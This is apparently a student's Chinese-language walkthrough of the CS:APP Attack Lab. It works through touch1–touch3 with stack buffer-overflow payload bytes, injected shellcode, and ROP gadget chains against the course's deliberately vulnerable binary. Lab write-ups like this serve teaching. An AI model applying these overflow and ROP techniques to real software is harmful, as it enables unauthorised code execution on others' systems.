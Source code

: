 # Attack Lab

之前拖了一会儿作业，要去世了，现在补上吧

## touch1

这里是先执行test函数，然后退出。

但是要不执行完test，而去执行touch1

![image-20210504003846993](https://raw.githubusercontent.com/EaKal-7/Images/main/8sHPYmoVcapCBGu.png)

```c
unsigned int __cdecl getbuf()
{
  char buf[40]; // [rsp+0h] [rbp-28h] BYREF

  Gets(buf);
  return 1;
}
```

显然这里buf只开了40的内存，所以直接使用字符串攻击

```
.text:00000000004017C0 ; void __cdecl touch1()
```

所以使溢出的地址为touch1的地址即可（这里需要注意这个程序是小端的地址要倒写

```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
c0 17 40 00
```

## touch2

这道题我一开始没看懂，一开始一直以为是参数压栈的方式来攻击，发现我多少有点大病，然后去看了一眼blog.，大致上的画了一张图。

![image-20210507154651560](https://raw.githubusercontent.com/EaKal-7/Images/main/ROENfpWoJuQM6Td.png)

大致上是这么一个意思

将

```
movq $0x59b997fa,%rdi
pushq  $0x4017ec
ret
//转变为机械码
0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
9:	68 ec 17 40 00       	pushq  $0x4017ec
e:	c3                   	retq  
```

所以攻击序列为

```
48 c7 c7 fa
97 b9 59 68
ec 17 40 00
c3 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
78 dc 61 55
```

# touch3

![image-20210507154847522](https://raw.githubusercontent.com/EaKal-7/Images/main/IFfTnwOvuhA4XY2.png)

不难发现传入了一个参数这个参数与cookie进行了比较

![image-20210507155718748](https://raw.githubusercontent.com/EaKal-7/Images/main/Wq5MHs2z9YSubPK.png)

从汇编里可以发现了在touch3的开始将sval值设置成rdi，说明rdi是存放参数地址的那个寄存器。（PS：这里要求cookie是个字符串的所以要存在栈里）

所以有了以下攻击序列：

![image-20210507162145452](https://raw.githubusercontent.com/EaKal-7/Images/main/qy6FemW9Jzrhguf.png)

然后就mad显而易见的错误了，这里看到

![image-20210507162217555](https://raw.githubusercontent.com/EaKal-7/Images/main/kXhK5dj9LSGms3v.png)

在touch3里面有一个函数申请了110的空间，我直接az了，然后就有了下面这张

![image-20210507162313534](https://raw.githubusercontent.com/EaKal-7/Images/main/V4NvTFGZA7Pzc5K.png)

攻击序列：

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 
35 39 62 39 39 37 66 61 
00 00 00 00
```

ROP:

问了一些别的师傅，我一开始是不了解ROP的；

ROP简单来说有两个特性：

1.栈随机

2.栈只可读

 ## touch2:



![image-20210507162618951](https://raw.githubusercontent.com/EaKal-7/Images/main/UgaJkWCj8xqOQtS.png)

这里说明需要从Gadget中找到对应的片段来进行攻击就行了：

（然后悄悄地看了眼达不溜屁，

可以找到两个满足条件的gadget

```
popq     %rax
ret                  
mov      %rax,%rdi
ret
```

这里将rax出栈赋值成cookie，然后复制给rdi

于是攻击字符串为：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
2d 1a 40 00 00 00 00 00 	//gadget1的起始地址
00 16 fb 73 00 00 00 00     //cookie
41 1a 40 00 00 00 00 00     //gadget2的起始地址
67 18 40 00 00 00 00 00     //touch2 的起始地址
```

## ROP touch3

这个我是真的没找到我直接看blog的，下面贴出所找到的指令：

```
mov   %rsp,%rax
ret
mov   %rax,%rdi
ret
popq  %rax         
ret                 
movl  %eax,%edx
ret
movl  %edx,%ecx
ret
movl  %ecx,%esi
ret
lea   (%rdi,%rsi,1),%rax
ret
mov   %rax,%rdi
ret
```

先把`%rsp`存储的栈顶指针值复制给`%rdi`， 再将`%eax`的值设置为`cookie`字符串地址在栈中的偏移量并复制给`%esi`，最后将二者相加即为`cookie`字符串的存储地址。当指令指到ret指令行时，说明一个函数已经结束了，这时候%rsp已经从被调用函数的栈指到了调用函数构建的返回地址位置。
所以当执行第一条指令时，%rsp指向当前栈顶即存储下一条指令的地址，而后面的指令执行完后最终不会使该%rsp值改变。
在第一条指令之后即从第二条指令开始，cookie字符串之前还有有9条指令，共占有72个字节即0x48字节，此即cookie字符串的地址在栈中的偏移量。

攻击字符串：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
//以上（任意字节除0x0a）填充满整个缓冲区（56字节）以致溢出。
b7 1a 40 00 00 00 00 00 
//用gadget1的起始地址覆盖掉原先的返回地址。
41 1a 40 00 00 00 00 00  //gadget2的起始地址。
2d 1a 40 00 00 00 00 00  //gadget3的起始地址。
48 00 00 00 00 00 00 00  //cookie字符串地址在栈中的偏移量。
53 1a 40 00 00 00 00 00  //gadget4的起始地址。
a9 1a 40 00 00 00 00 00  //gadget5的起始地址。
ca 1a 40 00 00 00 00 00  //gadget6的起始地址。
4c 1a 40 00 00 00 00 00  //gadget7的起始地址。
41 1a 40 00 00 00 00 00  //gadget8的起始地址。
75 19 40 00 00 00 00 00  //touch3 的起始地址。
37 33 66 62 31 36 30 30  //cookie字符串的字节表示。
```

完结撒花

PS：最近在写BUU的WP，所以有点拖拉，尽量在近期将BUU的WP发出来，博客搞搞完。
PPS：最近MD文件换了个图床，结果Github不能用，所以又换回了GIT的图床，真费劲。
